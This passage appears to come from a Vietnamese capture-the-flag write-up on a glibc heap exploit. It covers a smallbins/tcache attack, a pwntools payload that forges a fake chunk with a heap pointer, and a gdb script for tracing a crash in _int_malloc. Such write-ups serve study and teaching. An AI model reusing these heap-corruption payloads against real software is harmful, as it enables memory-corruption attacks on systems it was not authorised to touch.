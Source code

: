 Do vậy, trong lần malloc kế tiếp, nó sẽ trả về `tcache_bins`. Đồng thời, do trong lần malloc trước nó đã clear chunk 0x30 nên ta cần thiết lập lại size ở đây, ta có payload như sau :  

```python
fake_chunk = flat({
    0x88 : [0x31, heap + 0x30]
}, length=0xf0, filler=b'\0')
buy(5, 0x100), fake_chunk)
```

Tiếp đến, malloc tiếp theo sẽ trả về `tcache`.  
Về lí thuyết là vậy nhưng có vẻ như `smallbins attack` còn 1 điểm mà chúng ta cần lưu tâm, `tcache`. 😥  

#### STEP 4.3.1 : Trace segfault  
Nếu làm đơn thuần như trên, chương trình sẽ crash tại hàm `_int_malloc`.  

![](../img/2020-11-14-13-45-52.png)  

Đến đây giờ sao :v Chương trình không in ra lỗi do đó khó trace trong source code của malloc.  
Ta sẽ viết 1 script gdb để trace dần lên xem trước khi nhảy tới đây thì hàm nào gọi nó.  

```gdb
define trace
while ($rip != _int_malloc+1453)
    set $old = $rip
    si
end
printf "Call  : 0x%lx\\n", $old
end
```

Đoạn script trên đơn giản là sẽ thực hiện từng lệnh cho tới khi gặp `_int_malloc+1453` thì dừng.  

![](../img/2020-11-14-13-49-36.png)
